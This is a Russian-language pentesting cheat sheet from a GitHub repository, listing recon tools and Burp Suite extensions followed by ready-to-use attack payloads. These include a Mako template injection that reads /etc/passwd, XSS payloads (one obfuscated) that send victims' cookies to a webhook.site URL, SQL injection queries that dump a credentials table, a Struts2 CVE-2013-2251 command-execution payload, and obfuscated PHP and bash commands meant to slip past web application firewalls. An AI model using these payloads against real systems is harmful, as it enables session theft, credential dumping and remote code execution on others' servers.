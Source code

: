 # Hack Tips

## Разведка доменных имен

### [Cero](https://github.com/glebarez/cero)
Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-р�[...]  
- Извлекает сертификаты из любого протокола, работающего через TLS (не только HTTPS).  
- Позволяет указывать цели: доменные имена, IP-адреса и диапазоны CIDR (поддержка IPv6).

---

### [hakip2host](https://github.com/hakluke/hakip2host)
Инструмент для возврата связанных доменных имен по списку IP-адресов.  
- DNS PTR-поиски  
- Альтернативные имена субъектов (SAN) в SSL-сертификатах  
- Общие имена (CN) в SSL-сертификатах

---

### [httpx](https://github.com/projectdiscovery/httpx)
Быстрый и многоцелевой HTTP-инструментарий.  
- Позволяет запускать несколько тестов с помощью библиотеки.

---

### [waymore](https://github.com/xnl-h4ck3r/waymore)
Инструмент для поиска архивных ссылок через Wayback Machine.  
- Находит больше ссылок, чем другие инструменты.  
- Загружает архивные ответы и URL-адреса.

---

### [xnLinkFinder](https://github.com/xnl-h4ck3r/xnLinkFinder)
Поиск конечных точек и потенциальных параметров заданной цели.  
- Сканирование одного или нескольких доменов/URL  
- Поиск файлов и параметров в каталогах или файлах  
- Импорт из Burp (XML), ZAP (ASCII), Caido (CSV)  
- Интеграция с результатами waymore

---

## Burp Suite — полезные расширения

### Turbo Intruder
Мощное расширение для проведения высокоскоростных атак (brute-force, fuzzing) с помощью скриптов на Python.  
- Кастомизация логики атаки  
- Обработка ответов для поиска уязвимостей

#### turbo-intruder_script.py
Скрипт для проведения Time-Based SQL Injection с использованием расширения Turbo Intruder для Burp Suite. Скрипт перебирает символы для извлечения схем из базы данных через подстановку значений из файла символов и анализирует задержку в ответах для определения успешных угадываний.

---

### Copy as FFUF Command
Упрощает экспорт запросов из Burp Suite для ffuf.  
- Автоматически формирует команду ffuf по выбранному запросу

### Hackvertor
Расширение для преобразования и кодирования данных в Burp Suite.  
- Большое количество кодировок  
- Удобно для генерации payload'ов, обхода фильтров и анализа данных

### Param Miner
Автоматически ищет скрытые и нестандартные параметры в веб-приложениях.  
- Позволяет находить дополнительные точки атаки

### HackBar
Интерактивное расширение для тестирования и манипулирования HTTP-запросами прямо из Burp Suite.  
- Позволяет быстро конструировать и модифицировать payload'ы  
- Включает функции для кодирования/декодирования (URL, Base64 и др.)  
- Удобно для проведения ручного тестирования (XSS, SQLi, LFI и др.)  
- Поддерживает работу с cookie, заголовками и параметрами  
- Имеет панель быстрого доступа прямо в окне запроса

---

## Веб-уязвимости

### SSTI (Server-Side Template Injection) в Python

#### Mako Templates
- Проверка уязвимости:  
  ```python
  ${7*7}  # → 49
  ```
- Чтение файла:  
  ```python
  <% import os %>${os.popen('cat /etc/passwd').read()}
  ```

---

### XSS Payload

```html
<img src="x" onerror="this.src='https://webhook.site/ed4c7969-5419-4849-bf6d-003858a4c8a2?c='+encodeURIComponent(document.cookie); this.removeAttribute('onerror');">

```

```html
<img src="x" onerror="var cookie=String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101); new Image().src='https://webhook.site/ed4c7969-5419-4849-bf6d-003858a4c8a2?c=' + encodeURIComponent(eval(cookie));">
```



#### exploit.svg
Пример SVG-файла с использованием встраивания XML External Entity (XXE). Содержит сущность, ссылающуюся на файл `/etc/passwd`, что может быть использовано для демонстрации или тестирования XXE-уязвимостей.

---

## LFI (Local File Inclusion)
- [PHP Wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md)
- [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator) 
- **Top 25 LFI Parameters** — [файл](https://github.com/felixsta/hack_tips/blob/main/Top_25_LFI_Parameters)  
- **LFI Wordlists:**  
  - [SecLists/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)  
  - [DragonJAR/Security-Wordlist/main/LFI-WordList-Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)

#### delimiter_list
Список символов-разделителей, используемый для подбора полезной нагрузки при отравлении кэша (cache poisoning). Содержит различные символы и их URL-кодированные варианты, которые помогают обходить фильтры и изменять поведение кэширования на стороне сервера во время проведения атак или fuzzing.

---

## SQLi (SQL Injection)
- [Stacked Queries](https://www.sqlinjection.net/stacked-queries/)  
- [Pentestmonkey SQLi Cheat Sheet](https://pentestmonkey.net/category/cheat-sheet/sql-injection)
- cn' UNION select 1,database(),2,3-- -	Current database name
- cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -	List all databases
- cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -	List all tables in a specific database
- cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -	List all columns in a specific table
- cn' UNION select 1, username, password, 4 from dev.credentials-- -	Dump data from a table in another database
---
## jQuery
- `jquery.fn.jquery` в `jQuery` возвращает строку, содержащую текущую версию библиотеки `jQuery`. Например, если вы используете `jQuery 3.7.0`, то `jquery.fn.jquery` вернет `3.7.0`

---
## Struts2 CVE-2013-2251 payload
```
/index.action?redirect:%25%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField%28%22allowStaticMethodAccess%22%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C%23a%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%22ls%20-la%22%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read%28%23d%29%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2C%23out.println%28%23d%29%2C%23out.close%28%29%7D
```

## Поиск кредов
```php
grep -r "password{" /www 2>/dev/null
```

## Обфускация payload для обхода WAF

- Использование шестнадцатеричного или octal-кодирования для скрытия функции.
```php
vuln.php?param=\x73\x79\x73\x74\x65\x6d("whoami")
```
- Динамическое создание строк через массивы символов.
```php
vuln.php?param=$a=['s','y','s','t','e','m'];$a=''.$a[0].$a[1].$a[2].$a[3].$a[4].$a[5];$a('whoami');
```
- Разбиение строки на части с использованием конкатенации или функций PHP. 
```php
vuln.php?param=$_GET[a]($_GET[b]);&a=system&b=whoami
```
- Обход фильтрации пробела, символа `/` команд Linux. Bashfuscator - инструмент для обфускации команд Bash
```bash
||l$@s${IFS}${PATH:0:1}home
```
